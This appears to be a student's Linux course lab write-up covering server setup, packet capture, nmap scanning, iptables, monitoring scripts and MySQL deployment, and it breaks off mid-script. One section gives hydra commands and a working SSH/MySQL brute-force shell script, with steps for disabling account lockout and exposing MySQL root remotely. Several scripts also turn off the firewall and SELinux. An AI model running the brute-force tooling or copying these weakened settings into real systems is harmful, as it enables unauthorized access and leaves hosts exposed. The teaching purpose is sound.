

## 【初始化】初始系统安装

系统：Kylin-Server-V10-SP3-General-Release-2303-X86_64.iso.torrent

### 1. 网卡配置

```bash
sed -i "s/ONBOOT=no/ONBOOT=yes/g" /etc/sysconfig/network-scripts/ifcfg-ens33

hostnamectl set-hostname [主机名]

systemctl disable firewalld && systemctl stop firewalld
```


#### 执行 `systemctl restart network` 报错

```bash
systemctl restart NetworkManager
```

#### 配置静态IP

查看本机网卡名称。

```bash
ls -al /sys/class/net/ | grep -i "pci" | awk -F "/" '{print $NF}' 
#返回网卡名。ens33
```

修改 `/etc/sysconfig/network-scripts/ifcfg-ens33` ：

```conf
BOOTPROTO=static #修改
ONBOOT=yes #修改
IPADDR=192.168.255.132 #添加
NETMASK=255.255.255.0 #添加
GATEWAY=192.168. #添加
DNS1=114.114.114.114 #添加
```
重启网卡：

```bash
nmcli connection reload && nmcli c up ens33
```


### 2.初始化配置修改

#### （1）/etc/sysctl.conf

more /etc/sysctl.conf

++

```conf
fs.file-max = 655360
vm.max_map_count = 262144
vm.swappiness = 10
kernel.sysrq = 0
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_syn_retries = 1
net.ipv4.tcp_tw_reuse = 1
net.ipv4.tcp_fin_timeout = 1
net.ipv4.tcp_keepalive_time = 1200
net.ipv4.ip_local_port_range = 1024 65535
net.ipv4.tcp_max_syn_backlog = 16384
net.ipv4.tcp_max_tw_buckets = 36000
net.ipv4.route.gc_timeout = 100
net.ipv4.tcp_syn_retries = 1
net.ipv4.tcp_synack_retries = 1
net.core.somaxconn = 16384
net.core.netdev_max_backlog = 16384
net.ipv4.tcp_max_orphans = 16384
net.ipv4.conf.all.send_redirects = 0
net.ipv4.conf.default.send_redirects = 0
net.ipv4.conf.all.accept_source_route = 0
net.ipv4.conf.default.accept_source_route = 0
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv4.conf.all.secure_redirects = 0
net.ipv4.conf.default.secure_redirects = 0
net.ipv4.icmp_echo_ignore_broadcasts = 1
net.ipv4.icmp_ignore_bogus_error_responses = 1
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1
net.ipv4.tcp_syncookies = 1
kernel.dmesg_restrict = 1
net.ipv6.conf.all.accept_redirects = 0
net.ipv6.conf.default.accept_redirects = 0
```

然后输入 `/sbin/sysctl -p` 。

#### （2）/etc/security/limits.conf

more /etc/security/limits.conf

++

```conf
* soft nproc 20480
* hard nproc 20480
* soft nofile 65536
* hard nofile 65536
* soft memlock unlimited
* hard memlock unlimited
```


然后输入 `ulimit -Sn` 。 

效果：1024 -> 65536

### 3.基础组件工具安装

```shell
dnf -y install telnet nmap gcc make curl wget vim net-tools chrony tcpdump
```

`systemctl enable chronyd && systemctl start chronyd`

`date -R`

### 4.一些指令

netstat -tupln
tcpdump --help

### 【额外】5.通用初始化安装脚本开头

```bash
################检查当前是否为ROOT身份、关闭防火墙清空、iptables规则、关闭selinux安全策略、检查网络通信情况
if [ "${UID}" != "0" ];then
	echo "Must Be To Root."
	exit 1
fi

systemctl disable firewalld && systemctl stop firewalld
iptables -F && iptables -Z && iptables -X

GET_STATUS=`more /etc/selinux/config | grep -i '^SELINUX=' | awk -F"=" '{print $2}'`
if [ "${GET_STATUS}" == "enforcing" ];then
	sed -i "s/SELINUX=enforcing/SELINUX=disabled/g" /etc/selinux/config
elif [ "${GET_STATUS}" == "permissive" ];then
	sed -i "s/SELINUX=permissive/SELINUX=disabled/g" /etc/selinux/config
fi

NIC_NAME=`ls -l /sys/class/net/ | grep -i 'pci'| awk -F"/" '{print $NF}'`
ping -c1 qq.com >/dev/null 2>&1
sleep 2
if [ "$?" != "0" ];then
	sed '\|DNS|d' /etc/sysconfig/network-scripts/ifcfg-${NIC_NAME}
	echo "DNS1=114.114.114.114" >> /etc/sysconfig/network-scripts/ifcfg-${NIC_NAME}
	nmcli connect reload && nmcli connect up ${NIC_NAME}
fi
ping -c1 qq.com >/dev/null 2>&1
sleep 2
if [ "$?" != "0" ];then
	echo "The LocalHost Service Is Accessible From The Internet."
	exit 1
fi
#################安装EPEL仓库、清理yum缓存并快速生成缓存、安装必要的开发工具和库
wget -v https://mirror.sjtu.edu.cn/fedora/epel/epel-release-latest-8.noarch.rpm -P /root && yum -y localinstall /root/epel-release-latest-8.noarch.rpm

yum clean all && yum makecache fast
sleep 5
yum -y install lrzsz net-tools curl wget vim lsof make gcc pcre-devel zlib-devel openssl-devel libxml2-devel libxslt-devel gd-devel GeoIP-devel jemalloc-devel perl-devel
```

## 【任务列表】任务列表

```text
1、第一台Linux系统，分别搭建Nginx与Tomcat服务作为服务端。第二台Linux系统作为客户端，分别访问Nginx和Tomcat服务，使用tcpdump抓取数据包，使用wireshark分析。
2、第一台Linux系统对第二台Linux系统服务器信息收集，包括：端口信息收集、程序服务版本识别和操作系统信息识别。
3、编写Shell程序，实现IPTABLES -- 生产业务shell
4、编写Shell程序，检测Linux系统上是否有僵尸进程。
5、获取占比CPU 前10的进程名。
6、分别暴力破解SSH、MySQL用户名与密码
7、Shell实现每个用户日志记录

（2024年12月25日 课程任务）任务点3：
8、编写MySQL 二进制 部署Shell。实现以下功能:
(1)MySQL 版本 8.0或以上;
(2)要依据个人Linux系统配置比,适当做优化;
(3)开机启动脚本配置。
9、2台Linux系统(OpenEuler 或 Kylin Server V10)环境内,实现以上功能:
(1)MySQL 主从集群部署;
(2)测试验证,创建数据库zabser,依据zabser.sql 文件导入主库,测试备库是否同步一致。

（2024年12月26日 课程任务）任务点4：
10、第一台Linux系统部署syslog-ng服务器，第二台部署客户端，将nginx日志指向服务端；
11、部署keepalived，两台Nginx做主备服务，使用ICMP协议测试验证。
VIP地址，依据个人Linux系统网络环境自定义。

（2024年12月27日 课程任务）任务点5：
12、部署zabbix server服务  部署资料已经上传 群通知
13、监控zabbix server本机数据。

（2024年12月28日 课程任务）任务点6：
14、编写Shell程序，保障Linux主机系统 DDOS攻击；
15、基于Rocky Linux 8.10 升级kernel 版本自定义；

（2024年12月29日 课程任务）任务点7：
1、Nginx 服务自定义公钥、私钥，将http 转换为 https；
2、编写Shell程序，拒绝恶意IP登录；
3、编写Shell程序，实现本地镜像源配置。

```


---

## 1. nginx与tomcat搭建、tcpdump抓取数据包、wireshark分析。

>第一台Linux系统，分别搭建Nginx与Tomcat服务作为服务端。
>
>第二台Linux系统作为客户端，分别访问Nginx和Tomcat服务。
>
>使用tcpdump抓取数据包，使用wireshark分析。


### 1.1搭建nginx

**（1） 编写shell脚本nginx_install.sh：**

下载并解压nginx安装包，创建专用的数据目录，nginx的初始化配置。

脚本代码如下：

```bash
#!/bin/bash
#Description : Nginx Service Install
#Date        : 2024-10-13

if [ "${UID}" != "0" ];then
	echo "Must Be To Root."
	exit 1
fi

systemctl disable firewalld && systemctl stop firewalld
iptables -F && iptables -Z && iptables -X

GET_STATUS=`more /etc/selinux/config | grep -i '^SELINUX=' | awk -F"=" '{print $2}'`
if [ "${GET_STATUS}" == "enforcing" ];then
	sed -i "s/SELINUX=enforcing/SELINUX=disabled/g" /etc/selinux/config
elif [ "${GET_STATUS}" == "permissive" ];then
	sed -i "s/SELINUX=permissive/SELINUX=disabled/g" /etc/selinux/config
fi

NIC_NAME=`ls -l /sys/class/net/ | grep -i 'pci'| awk -F"/" '{print $NF}'`
ping -c1 qq.com >/dev/null 2>&1
sleep 2
if [ "$?" != "0" ];then
	sed '\|DNS|d' /etc/sysconfig/network-scripts/ifcfg-${NIC_NAME}
	echo "DNS1=114.114.114.114" >> /etc/sysconfig/network-scripts/ifcfg-${NIC_NAME}
	nmcli connect reload && nmcli connect up ${NIC_NAME}
fi
ping -c1 qq.com >/dev/null 2>&1
sleep 2
if [ "$?" != "0" ];then
	echo "The LocalHost Service Is Accessible From The Internet."
	exit 1
fi

wget -v https://mirror.sjtu.edu.cn/fedora/epel/epel-release-latest-8.noarch.rpm -P /root && yum -y localinstall /root/epel-release-latest-8.noarch.rpm

yum clean all && yum makecache fast
sleep 5
yum -y install lrzsz tar net-tools curl wget vim lsof make gcc pcre-devel zlib-devel openssl-devel libxml2-devel libxslt-devel gd-devel GeoIP-devel jemalloc-devel perl-devel

if [ "$?" != "0" ];then
	echo "Packages Install Error."
	exit 1
fi

wget -v https://nginx.org/download/nginx-1.26.2.tar.gz -P /root
test ! -d /data && mkdir -pv /data
tar -zxvf /root/nginx-1.26.2.tar.gz && cd /root/nginx-1.26.2
if [ "$?" != "0" ];then
	echo "Install Nginx Packages Error."
	exit 1
fi

cd /root/nginx-1.26.2
./configure --prefix=/data/nginx \
    --with-threads \
    --with-file-aio \
    --with-http_ssl_module \
    --with-http_v2_module \
    --with-http_realip_module \
    --with-http_addition_module \
    --with-http_xslt_module=dynamic \
    --with-http_image_filter_module=dynamic \
    --with-http_geoip_module=dynamic \
    --with-http_sub_module \
    --with-http_dav_module \
    --with-http_flv_module \
    --with-http_mp4_module \
    --with-http_gunzip_module \
    --with-http_gzip_static_module \
    --with-http_auth_request_module \
    --with-http_random_index_module \
    --with-http_secure_link_module \
    --with-http_degradation_module \
    --with-http_slice_module \
    --with-http_stub_status_module \
    --with-stream=dynamic \
    --with-stream_ssl_module \
    --with-stream_realip_module \
    --with-stream_geoip_module=dynamic \
    --with-stream_ssl_preread_module \
    --with-compat  \
    --with-pcre-jit
make && make install
	
if [ `lsof -i:80 |wc -l` != "0" ];then
	kill -9 `lsof -i:80 |grep -vi PID |awk -F" " '{print $2}'|xargs`
fi
```

**（2） 执行脚本。**

bash nginx_install.sh

**（3） 启动nginx服务，访问测试。**

/data/nginx/sbin/nginx

外部主机curl访问测试，返回状态码200说明访问正常，如图1所示。

|  |
| :------------------------------------------------: |
|              图1 安装并启动nginx服务               |

### 1.2搭建tomcat（包含jdk）

**（1） 安装jdk，编辑并执行shell脚本jdk_install.sh，如图2所示：** 

卸载已有的OpenJDK，解压并安装jdk-8u431-linux-x64.tar.gz，配置环境变量。

**要配合离线包 `jdk-8u431-linux-x64.tar.gz` 使用。**

脚本代码如下：

```bash
#!/bin/bash
#Version : JDK_8u431_X86_64

echo -e "System Initialization......\n"

systemctl disable firewalld && systemctl stop firewalld
SESTATUS=`more /etc/selinux/config | grep -i '^SELINUX=' | awk -F"=" '{print $2}'`
if [ "${SESTATUS}" != "disabled" ];then
	sed -i "s/SELINUX=enforcing/SELINUX=disabled/g" /etc/selinux/config
fi

rpm -e --nodeps `rpm -qa | grep openjdk`
echo -e "JDK Installation.......\n"
test ! -f /root/jdk-8u431-linux-x64.tar.gz && exit 1
tar -zxvf jdk-8u431-linux-x64.tar.gz -C /usr/local/ && mv /usr/local/jdk1.8.0_431 /usr/local/jdk
sleep 5
more >>/etc/profile << EOF
export JAVA_HOME=/usr/local/jdk
export PATH=$JAVA_HOME/bin:$PATH 
export CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar
export PATH JAVA_HOME CLASSPATH
EOF

ln -s /usr/local/jdk/bin/java /usr/bin/java
source /etc/profile

```


|  |
| :------------------------------------------------: |
|                   图2  JDK的安装                   |

**（2） 安装tomcat服务**

下载tomcat组件包并解压至/opt目录下，如图3所示：

`wget https://mirrors.tuna.tsinghua.edu.cn/apache/tomcat/tomcat-9/v9.0.97/bin/apache-tomcat-9.0.97.tar.gz`

`tar -zxvf apache-tomcat-9.0.97.tar.gz /opt`

|  |
| :------------------------------------------------: |
|             图3  tomcat服务安装与验证              |

### 1.3使用tcpdump抓取数据包，并使用wireshark分析

**（1）客户端使用curl命令分别访问nginx和tomcat服务。**

`curl -v http://192.168.255.132:8080`

`curl -v http://192.168.255.132:8080`

**（2）使用tcpdump命令抓取数据包，存为qus1.pcap文件，如图4所示。**

`tcpdump -i ens33 -w qus1.qcap`

|  |
| :------------------------------------------------: |
|               图4 tcpdump抓取数据包                |

**（3） 提取出qus1.pcap文件，使用wireshark分析，如图5所示。**

ARP 请求与应答：这表明虚拟机之间的 ARP 流量正常，确保了 IP 地址与 MAC 地址的正确映射。

HTTP 请求与响应：客户端成功通过 Nginx（80端口）和 Tomcat（8080端口）访问服务端，服务端返回 HTTP 200 OK 响应并正常关闭连接。

TCP 连接的建立与断开：客户端和服务端之间的 TCP 连接通过三次握手建立，并通过四次挥手正常关闭。

|  |
| :------------------------------------------------: |
|         图5  wireshark分析qus1.pcap数据包          |

**1.ARP (地址解析协议) 数据包**

这些 ARP 流量表明网络中的设备正在通过 ARP 协议正确地解析并存储 IP 地址和 MAC 地址之间的映射信息。

**数据包 5-8:**

在数据包 5-8 中，客户端和服务端通过 ARP 协议查询和确认了 192.168.255.2 的 MAC 地址。

第 5 和第 6 包：客户端（IP: 192.168.255.133）询问谁有 192.168.255.2 的 IP 地址，并得到了答复，MAC 地址为 00:50:56:fb:42:62。

第 7 和第 8 包：服务端（IP: 192.168.255.132）询问谁有 192.168.255.2 的 IP 地址，并得到了答复，MAC 地址同样是 00:50:56:fb:42:62。

**数据包 21~24:**

在数据包 21-24 中，客户端和服务端分别查询对方的 IP 地址对应的 MAC 地址，以确保通信的正确性。

第 5 和第 6 包：客户端（IP: 192.168.255.133）询问谁有 192.168.255.132 的 IP 地址，并得到了答复，MAC 地址为 00:0c:29:6a:db:1e。

第 7 和第 8 包：服务端（IP: 192.168.255.132）询问谁有 192.168.255.133 的 IP 地址，并得到了答复，MAC 地址同样是 00:0c:29:a4:59:6a。

**2.HTTP 请求与响应**

**80端口（Nginx）**

**数据包 9-20:**

客户端通过 `curl -v http://192.168.255.132:80` 向服务端的 Nginx 服务发起 HTTP 请求。

数据包 9：客户端（IP: 192.168.255.133）发送一个 TCP SYN 包，表示请求与服务端（IP: 192.168.255.132）建立连接。

数据包 10：服务端回应一个 SYN, ACK 包，表示同意建立连接。

数据包 11：客户端发送 ACK 包，完成三次握手，建立连接。

数据包 12：客户端发送 HTTP GET 请求，尝试访问服务端的根目录。

数据包 13-14：服务端收到请求并返回 HTTP 200 OK 响应，包含页面内容（数据包 15）。

数据包 18：客户端发送 FIN, ACK 包，表示关闭连接。

数据包 19-20：服务端回应 FIN, ACK 包，并客户端确认关闭连接。

**8080端口（Tomcat）**

**数据包 25-38:**

客户端通过 `curl -v http://192.168.255.132:8080` 向服务端的 Tomcat 服务发起 HTTP 请求。

数据包 25：客户端发送 TCP SYN 包，尝试连接 Tomcat 服务（端口 8080）。

数据包 26：服务端回应 SYN, ACK 包，表示同意建立连接。

数据包 27：客户端发送 ACK 包，完成三次握手，连接建立。

数据包 28：客户端发送 HTTP GET 请求，访问 Tomcat 服务的根目录。

数据包 29：服务端返回 ACK 包确认。

数据包 30-31：服务端响应 HTTP 数据（在数据包 34 中包含了 HTTP 响应的正文，包含 HTML 内容）。

数据包 36-38：连接断开，客户端和服务端通过 FIN, ACK 包关闭连接。


## 2. 对目标机的信息收集。使用nmap指令

>第一台Linux系统对第二台Linux系统服务器信息收集。
>
>包括：端口信息收集、程序服务版本识别和操作系统信息识别。

**（1） 编写shell脚本，scan_info_client.sh。**

主要命令：

nmap -p- --open --min-rate=1000 192.168.255.133

nmap -sV 192.168.255.133

nmap -O 192.168.255.133

脚本代码如下：

```bash
#!/bin/bash
CLIENT_IP="192.168.255.133"
OUTPUT_FILE="client_info.txt"
echo "# Port scan, Service version detection, OS detection" > $OUTPUT_FILE
echo "======Port Scan======" >> $OUTPUT_FILE
echo "Starting port scan on $CLIENT_IP..."
nmap -p- --open --min-rate=1000 $CLIENT_IP >> $OUTPUT_FILE
echo "======Service Version Detection======" >> $OUTPUT_FILE
echo "Starting service version detection on $CLIENT_IP..."
nmap -sV $CLIENT_IP >> $OUTPUT_FILE
echo "======OS Detection======" >> $OUTPUT_FILE
echo "Starting OS detection on $CLIENT_IP..."
nmap -O $CLIENT_IP >> $OUTPUT_FILE
echo -e "Information collection completed.\nResult saved to: $OUTPUT_FILE"
```

**（2） 运行shell脚本。**

bash scan_info_client.sh

**（3） 查看脚本运行结果文件，`client_info.txt`  。**

目标主机的端口信息、程序服务版本、操作系统信息，均存储在client_info.txt文本文件中。

通过 `more client_info.txt` 查看，如图6所示。

|  |
| :----------------------------------------------------------: |
|                      图6 服务器信息收集                      |

 

## 3.iptables规则配置初始化 – 生产业务shell

> 编写Shell程序，实现IPTABLES -- 生产业务shell

**（1） 编写iptables_init.sh。**

清空iptables中所有规则，设置默认策略，限制icmp请求速率，限制syn请求速率，允许所有本地回环接口（lo）的数据包，允许所有已建立连接的数据包，允许常用端口【**80（HTTP）、443（HTTPS）、25（SMTP）、110（POP3）、22（SSH）**】。

脚本代码如下：

```bash
#/bin/bash

iptables -F
iptables -F -t nat
iptables -X
iptables -Z
iptables -P INPUT DROP
iptables -P OUTPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 10 -j ACCEPT
iptables -A INPUT -p tcp -m tcp --tcp-flags SYN,RST,ACK SYN -m limit --limit 20/sec --limit-burst 200 -j ACCEPT
iptables -A INPUT -p tcp -m multiport --dport 80,443,25,110,22 -j ACCEPT
```

**（2） 执行shell脚本。**

bash iptables_init.sh

**（3） 查看iptables规则配置。**

脚本执行完后，可以通过 `iptables -L` 查看规则配置，如图7所示。

**总结：该shell脚本，默认拒绝所有外部访问，允许本地流量，并限制如SYN泛洪等常见攻击。它还允许一些基本的网络服务（如 HTTP、HTTPS、SSH 和邮件服务）以及 ICMP 请求。**

|  |
| :----------------------------------------------------------: |
|                    图7  iptables规则配置                     |

 

## 4.检测本机是否存在僵尸进程 – 编写shell程序

> 编写Shell程序，检测Linux系统上是否有僵尸进程。

**（1） 编写zombies_check.sh。**

获取当前进程列表，筛选僵尸进程，检查是否存在僵尸进程。

脚本代码如下：

```bash
#!/bin/bash
processes=$(ps ax -o user,pid,ppid,pgid,args,stat,start,time)
zombies=$(echo -e "${processes}" | grep -E "\s(Z|z|Z .*)\s")
if [ $? == 1 ]; then
	echo "no zombie processes exists on machine"
else
	echo -e "${processes}" | head -1
	echo "$zombies"
fi
```

**（2） 执行脚本。**

bash zombies_check.sh

**（3） 查看结果，如图8所示。**

|  |
| :----------------------------------------------------------: |
|                       图8 检测僵尸进程                       |

 

## 5.获取占比CPU前10的进程名 – 编写shell程序

**（1） 编写cpu_use_top10.sh。**

脚本代码如下：

```bash
#!/bin/bash
ps -eo pcpu,comm --sort=-pcpu | head -n 11 | tail -n 10
```

**（2） 执行shell脚本。**

bash cpu_use_top10.sh

**（3） 查看结果。**

运行脚本，在控制台回显结果。从上至下依次是CPU占比前10排名的进程，如图9所示。

|  |
| :----------------------------------------------------------: |
|                     图9 获取前10占比CPU                      |

## 6.分别暴力破解SSH、MYSQL用户名与密码

> 分别暴力破解SSH、MySQL用户名与密码

因为现在大多数系统的默认设置无法进行最简单的穷举爆破，所以我们需要更改这些安全策略设置，以便于我们进行测试。

目标机（靶机）配置更改：

- **针对SSH的更改：**

	`/etc/pam.d/password-auth` 中的所有带有`faillock`字样的字段行，全部注释掉。**【最有效】**
	同类的还有 `/etc/pam.d/sshd` 和 `/etc/pam.d/system-auth` 。

	 `/etc/ssh/sshd_config` 中的 `MaxAuthTries` 、 `LoginGraceTime` 和 `MaxStartups` 。
	```text
	MaxAuthTries=6
	LoginGraceTime=120
	MaxStartups=10:30:100
	```

	清除所有用户的失败记录：

	```bash
	sudo pam_tally2  # 查看失败记录
	sudo pam_tally2 -u root -r  # 清除 root 用户的失败记录
	sudo faillock --user root --reset  # 清除 root 用户的失败锁定
	```

	重启了 `sshd` 服务：

	```bash
	sudo systemctl restart sshd
	```

	登录日志 `/var/log/secure` 检查。

- **针对MYSQL的更改：**

	在 `mysql` 中，修改 `root` 用户的权限，允许从任何主机（或特定 IP）连接：**【最有效】**

	```mysql
	UPDATE mysql.user SET host = '%' WHERE user = 'root' AND host = 'localhost';
	FLUSH PRIVILEGES;
	```

	检查 `root` 用户是否被允许从任何主机连接，执行以下 SQL 查询：

	```mysql
	SELECT user, host FROM mysql.user WHERE user = 'root';
	```

	MySQL 配置文件 `my.cnf`：
	找到 `bind-address` 设置项，修改它为 `0.0.0.0` 或服务器的 IP 地址：

	```cnf
	bind-address = 0.0.0.0
	```

### 方法一：使用hydra工具

1. SSH暴力破解

	```bash
	hydra -l username -P /path/to/passwordlist.txt ssh://target_ip
	```

2. MySQL暴力破解

	```bash
	hydra -l root -P /path/to/passwordlist.txt mysql://target_ip
	```

-l username：指定用户名。
-P /path/to/passwordlist.txt：指定密码字典文件。
target_ip：目标主机IP地址。

### 方法二：编写shell程序

**（1） 编写暴力破解的shell脚本，brute.sh：**

暴力破解，穷举配对。两个模块，ssh与mysql。

脚本代码如下：

```bash
#!/bin/bash

# 检查参数
if [ $# -ne 4 ]; then
    echo "Usage:$0 [userlist.txt] [passwordlist.txt] [type: mysql/ssh] [Target IP]"
    exit 1
fi

userlist=$1
passwordlist=$2
attack_type=$3
target_ip=$4

# 检查攻击种类
if [ "$attack_type" != "mysql" ] && [ "$attack_type" != "ssh" ]; then
    echo "The attack type must be 'mysql' or 'ssh'"
    exit 2
fi

# SSH暴力破解
if [ "$attack_type" == "ssh" ]; then
    echo "Start brute force cracking SSH..."
    while IFS= read -r user; do
        while IFS= read -r pass; do
            echo "try $user:$pass"
            sshpass -p "$pass" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=5 "$user@$target_ip" "exit"
            if [ $? -eq 0 ]; then
                echo "Successfully logged in SSH: $user:$pass"
                exit 0
            fi
        done < "$passwordlist"
    done < "$userlist"
fi

# MySQL暴力破解
if [ "$attack_type" == "mysql" ]; then
    echo "Start brute force cracking MySQL..."
    while IFS= read -r user; do
        while IFS= read -r pass; do
            echo "try $user:$pass"
            mysql -u "$user" -p"$pass" -h "$target_ip" -e "exit" 2>/dev/null
            if [ $? -eq 0 ]; then
                echo "Successfully logged in MySQL: $user:$pass"
                exit 0
            fi
        done < "$passwordlist"
    done < "$userlist"
fi

```


**（2） 执行脚本：**

- **脚本赋权：**`chmod +x brute.sh`

- **用法：**`./brute.sh [用户名列表文件] [密码列表文件] [暴力破解的种类: mysql/ssh] [目标IP]`

- **脚本的执行：**
	1. 编辑创建字典文件ur.txt和pw.txt。
	2. ssh暴力破解：`./brute.sh ur.txt pw.txt ssh 192.168.255.132`
	3. mysql暴力破解：`./brute.sh ur.txt pw.txt mysql 192.168.255.132`

**（3） 查看结果：** 

结果显示，如图10所示。

ssh的成功登录为root:Ccu2024@，mysql的成功登录为root:root123456。

| **** |
| :----------------------------------------------------------: |
|                   图10 SSH、MYSQL暴力破解                    |

 

## 7.实现每个用户日志记录 – 编写shell程序

> Shell实现每个用户日志记录

**（1） 在/etc/profile的文末添加如下内容：**

```bash
USER=`whoami`
USER_IP=`who -u am i 2>/dev/null` | awk '{print $NF}' | sed -e 's/[()]//g'
if [ "$USER_IP" = "" ];then
	USER_IP=`hostname`
fi
if [ ! -d /var/log/history ];then
	mkdir /var/log/history
	chmod -R 777 /var/log/history
fi
if [ ! -d /var/log/history/${LOGNAME} ];then
	mkdir /var/log/history/${LOGNAME}
	chmod 300 /var/log/history/${LOGNAME}
fi
export HISTSIZE=4096
DT=`date +"%Y%m%d_%H:%M:%S"`
export HISTFILE="/var/log/history/${LOGNAME}/${USER}@${USER_IP}_$DT"
chmod 600 /var/log/history/${LOGNAME}/*history* 2>/dev/null
```

**（2） 应用其修改：**

source /etc/profile

**（3） 查看记录的结果，如图11所示：**

“/var/log/history”中存放各用户。

“/var/log/history/用户”中存放每个用户的记录。

|  |
| :------------------------------------------------: |
|          图11  shell实现每个用户日志记录           |

 

## 8.mysql二进制部署及配置优化 – 编写shell程序

>编写MySQL 二进制 部署Shell。实现以下功能:
>
>(1)MySQL 版本 8.0或以上;
>
>(2)要依据个人Linux系统配置比,适当做优化;
>
>(3)开机启动脚本配置。

**（1） 编写mysql的安装部署脚本，mysql_install.sh：**

创建mysql用户及目录、安装并初始化 MySQL 数据库、配置 MySQL 的日志文件和目录、启动 MySQL 服务。

mysql_install.sh脚本代码如下：

```bash
#!/bin/bash
function MySQL_User(){
    id mysql >/dev/null 2>&1
    if [ "$?" != "0" ];then
	useradd -s /sbin/nologin mysql >/dev/null 2>&1
    fi	
}
function Create_DIR(){
    DIRECTORY=("/home/mysql/data" "/home/mysql/mysqlbase" "/home/mysql/mysqllog")
    for i in "${DIRECTORY[@]}"
    do
    	if [ ! -d "${i}" ];then
        	mkdir -p "${i}"
    	fi
    done
}
function INSTALL(){
    chown -R mysql:mysql /home/mysql/*
    tar -xvf /root/mysql-8.0.39-linux-glibc2.28-x86_64.tar.xz -C /home/mysql/mysqlbase 
    mv /home/mysql/mysqlbase/mysql-8.0.39-linux-glibc2.28-x86_64 /home/mysql/mysqlbase/mysql-8.0.39
    /home/mysql/mysqlbase/mysql-8.0.39/bin/mysqld --initialize --user=mysql --basedir=/home/mysql/mysqlbase/mysql-8.0.39/ --datadir=/home/mysql/data/    
    if [ "$?" != "0" ];then
	echo "An error occurs during the installation of the MySQL Database Service."
	exit 1
    fi
    if [ -f /etc/my.cnf ];then
 	rm -rf /etc/my.cnf
	mv /root/my.cnf /etc/
    else
	mv /root/my.cnf /etc
    fi
    if [ -f /etc/init.d/mysqld ];then
	rm -rf /etc/init.d/mysqld
    else
	cp /home/mysql/mysqlbase/mysql-8.0.39/support-files/mysql.server /etc/init.d/mysqld
    fi
    if [ ! -f /usr/bin/mysql ];then
	ln -s /home/mysql/mysqlbase/mysql-8.0.39/bin/mysql /usr/bin/mysql
    fi
}
function MYSQL_LOG(){
    MYSQL_LOG=("/home/mysql/mysqllog/error_log" "/home/mysql/mysqllog/mybinlog")
    for j in "${MYSQL_LOG[@]}"
    do
	if [ ! -d "${MYSQL_LOG}" ];then
		mkdir -p ${j}
	fi
    done    
    test ! -f /home/mysql/mysqllog/error_log/error.log && touch /home/mysql/mysqllog/error_log/error.log    
    test ! -f /home/mysql/mysqllog/mysql-slow.log && touch /home/mysql/mysqllog/mysql-slow.log
    cd /home/mysql/ && chown -R mysql:mysql mysqllog 
}
function MYSQL_START(){
    /etc/init.d/mysqld start 
    sleep 5
    if [ "$?" != "0" ];then
	echo "MySQL Service Running Is Error."
	exit 0
    else
	echo "MySQL Service Running Is Successful."
    fi
}
main (){
MySQL_User
Create_DIR
INSTALL
MYSQL_LOG
MYSQL_START
}
main
```

**（2） 执行脚本：**

预先下载好mysql的离线二进制包：

mysql-8.0.39-linux-glibc2.28-x86_64.tar.xz

然后运行脚本：

bash mysql_install.sh

**（3） 运行结果，如图12所示：**

脚本执行完毕后，会给出MYSQL的root账户的初始登录密码。

脚本自启MYSQL服务后，可以以root身份使用初始密码登入MYSQL。

|  |
| :----------------------------------------------------------: |
|                      图12  MYSQL的部署                       |

**（4） MYSQL开机自启：**

使用以下指令：

systemctl start mysqld && systemctl enable mysqld

达到MYSQL开机自启的目的。

 

## 9.mysql主从集群部署

>2台Linux系统(OpenEuler 或 Kylin Server V10)环境内,实现以上功能:
>
>(1)MySQL 主从集群部署;
>
>(2)测试验证,创建数据库zabser,依据zabser.sql 文件导入主库,测试备库是否同步一致。

**（1）修改主库与从库的my.cnf配置文件**

服务端mysql做主库，客户端mysql做从库。

**修改主库my.cnf配置文件，添加以下内容：**

```cnf
[mysqld]
server-id = 1
log-bin = /var/lib/mysql/mysql-bin.log
binlog-do-db = zabser
```

**修改从库my.cnf，添加以下内容：**

```cnf
[mysqld]
server-id = 2
```

**（2）编写主库与从库的shell配置脚本。**

**主库，一键部署脚本setup_master.sh：**

应用my.cnf修改配置、创建mysql中的从库同步账户replica、输出二进制文件名与文件位置。

**从库，一键部署脚本setup_slave.sh：**

应用my.cnf修改配置、导入主库信息进行从库同步、显示同步状态。

setup_master.sh脚本代码如下：

```bash
#!/bin/bash

# 检查传入参数
if [ "$#" -ne 1 ]; then
    echo "Usage: ./setup_master.sh [root password]"
    exit 1
fi

MYSQL_ROOT_PASSWORD=$1

# 重启 MySQL 服务（确保配置已经生效）
echo "Restarting MySQL to apply the configuration..."
sudo systemctl restart mysqld

# 创建复制用户
echo "Creating replication user..."
mysql -u root -p$MYSQL_ROOT_PASSWORD -e "CREATE USER 'replica'@'%' IDENTIFIED BY 'password';"
